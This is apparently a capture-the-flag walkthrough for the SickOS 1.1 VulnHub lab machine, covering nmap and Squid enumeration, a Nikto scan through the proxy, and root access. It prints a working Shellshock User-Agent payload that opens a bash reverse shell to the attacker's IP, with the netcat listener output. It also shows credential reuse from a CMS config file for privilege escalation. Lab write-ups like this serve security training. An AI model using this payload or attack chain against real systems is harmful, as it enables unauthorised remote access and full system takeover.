




- Author Description
- Host Enumeration
- Squid Enumeration
- Nikto scan via Proxy
- Shellshock Bash Reverse Shell
- Local Enumeration
- Local Privilege Escalation
Author Description
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.
Author: @D4rk36
Download: VulnHub
Host Enumeration
Port Scanning
nmap -v -p 1-65535 -sV -O -sT 192.168.30.138Service Enumeration
| Port | Service | Version Detection |
|---|---|---|
|
|
SSH |
OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0) |
|
|
HTTP-Proxy |
Squid http proxy 3.1.19 |
Squid Enumeration
Inspection of Squid using the metasploit module auxiliary/scanner/http/squid_pivot_scanning discovered port 80 was exposed via the proxy.

Nikto scan via Proxy
Nikto was configured to use the discovered Squid proxy:
[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128Nikto disclosed the location /cgi-bin/status, indicating the target could be vulnerable to shellshock.

Shellshock Bash Reverse Shell
Burp Suite was used to manipulate User-Agent: to include the bash reverse shell.
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
A reverse shell was established:
[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...
192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
[email protected]:/usr/lib/cgi-bin$Local Enumeration
Local enumeration of the system disclosed the file /var/www/wolfcms/config.php containing:
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', '[email protected]');
define('TABLE_PREFIX', '');Local Privilege Escalation
The previously discovered credentials worked for MySQL root, and were reused for the user sickos and again for sudo as the user sickos.
Local Privilege Escalation:
[email protected]:/$ su - sickos
su - sickos
Password: [email protected]
[email protected]:~$ ls
ls
[email protected]:~$ cat .bash_history
cat .bash_history
sudo su
exit
[email protected]:~$ sudo -s
sudo -s
[sudo] password for sickos: [email protected]
[email protected]:~# cd /root
cd /root
[email protected]:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
[email protected]:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!
ROOT!
You have Succesfully completed SickOS1.1.
Thanks for Trying
[email protected]:/root#Root Flag

Thanks for the VM :)